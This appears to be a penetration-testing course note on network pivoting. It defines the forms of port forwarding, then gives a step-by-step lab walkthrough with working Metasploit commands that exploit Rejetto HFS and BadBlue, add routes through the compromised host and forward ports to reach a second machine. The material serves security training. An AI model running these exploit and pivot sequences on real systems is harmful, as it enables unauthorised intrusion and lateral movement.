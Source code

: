 # Pivoting

## Pivoting definitions

Pivoting is a post exploitation technique that involves utilizing a compromised host that is connected to multiple networks to gain access to systems within other networks.

After gaining access to one host, we can the compromised host to exploit other hosts on a private internal network to which we could not access previously.

Meterpreter provides us with the ability to add a network route to the internal network's subnet, perform port forwarding and consequently scan and exploit other systems on the network.

## Different types of pivoting

Port forwarding: The attacker creates a tunnel between two machines via open TCP/IP ports, forwarding packages and traffic from one to another.

There are multiple forms of port forwarding:

- Local port forwarding: The compromised machine “listens” for data and instructions from the attacker’s machine, allowing the attacker to access internal services.

- Remote port forwarding: The attacker maps ports on their machine to local ports on the compromised machine.

- Dynamic port forwarding: The attacker creates a SOCKS proxy server for tunneling traffic, with the compromised machine acting as a middleman between the attacker’s machine and internal services.

- VPN pivoting: The attacker starts a virtual private network (VPN) client on the compromised machine, accessing a remote VPN server. The attacker then sends data from the server to the client and can also access information (e.g., network traffic) from the compromised machine by sending data from the client to the server.

- Proxy pivoting/SSH pivoting: The attacker establishes a local proxy server through SSH. Any connections to the designated port are then forwarded through the proxy to their final destination.

- Routing tables: The attacker changes the routing table of the compromised machine to add a new route. This route will require any traffic sent to the destination to tunnel through the defined gateway, allowing the attacker to capture this data.

## Lab

Victim 1 : 10.0.29.148/20

Victim 2 : 10.0.29.96/20

The attacker's Kali machine communicates with victim 1, but not with victim 2.

![pivoting-lab](../../Media/Pivoting/pivoting-lab.png)

## Steps of pivoting scenario (routing tables & remote port forwarding)

1. Enumeration of victim-1 :

```text
:~# nmap -sV -p 80 10.0.29.148
```

2. Use an exploit for compromise victim-1 machine :

```text
:~# searchsploit rejetto
:~# msfconsole
msf6> use exploit/windows/http/rejetto_hfs_exec
msf6> run
meterpreter > sysinfo
meterpreter > getuid
```

3. Next, we need to take a look at the network interfaces available on the victim-1 machine to find other internal networks :

```text
meterpreter > ipconfig
```

4. We'll add a new route between victim-1 machine and victim-2 machine to enable us to communicate with victim-2 :

```text
meterpreter > run autoroute -s 10.0.29.0/20
meterpreter > run autoroute -p
```

5. Let's put the victim-1 session in the background :

```text
meterpreter > background
```

6. Next, we will enumerate victim-2 via victim-1 with tcp port scan module :

```text
msf6 > use auxiliary/scanner/portscan/tcp
msf6 > show options
msf6 > set RHOSTS 10.0.29.96
msf6 > set PORTS 1-100
msf6 > run
```

We can see that port 80/tcp is open on victim-2 machine.

7. We want to enumerate the version on this port 80 with nmap on our Kali machine, so we need to create a port redirection to our local machine :

```text
msf6 > sessions
msf6 > sessions 1
meterpreter > portfwd add -l 1234 -p 80 -r 10.0.29.96
```

8. Now, in new tab of kali machine, we execute nmap scan to victim-2 service with port redirection :

```text
:~# nmap -sV -p 1234 localhost
```

We have identified the http service “Badblue httpd 2.7”.

8. Next, we will launch an exploit on victim-2 to gain access :

```text
msf6 > background (victim-1 session to background)
msf6 > search BadBlue
msf6 > use exploit/windows/http/badblue_passthru
msf6 > set payload windows/meterpreter/bind_tcp
msf6 > set RHOSTS 10.0.29.96
msf6 > run
meterpreter > sysinfo
meterpreter > getuid
```

9. At this point, we have gained access to victim-1 and victim-2 machines, and can list these accesses with the above commands :

```text
meterpreter > background (victim-2 session to background)
meterpreter > sessions
```

